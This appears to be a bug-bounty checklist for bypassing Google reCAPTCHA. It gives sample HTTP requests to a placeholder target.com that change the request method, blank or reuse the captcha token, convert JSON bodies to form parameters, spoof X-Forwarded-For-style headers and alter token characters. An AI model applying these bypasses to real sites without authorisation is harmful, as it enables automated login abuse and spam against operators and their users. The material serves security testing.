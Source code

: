 # Bypass Captcha (Google reCAPTCHA)

1. Try changing the request method, for example POST to GET
```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

Change the method to GET
```
GET /?_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123 HTTP 1.1
Host: target.com
...
```

2. Try remove the value of the captcha parameter
```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=&_Username=daffa&_Password=test123
```

3. Try reuse old captcha token
```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```

4. Convert JSON data to normal request parameter
```
POST / HTTP 1.1
Host: target.com
...

{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}
```
Convert to normal request
```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

5. Try custom header to bypass captcha
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

6. Change some specific characters of the captcha parameter and see if it is possible to bypass the restriction.
```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```
Try this to bypass
```
POST / HTTP 1.1
Host: target.com
...

_RequestVerificationToken=xxxdxxxaxxcxxx&_Username=daffa&_Password=test123
```
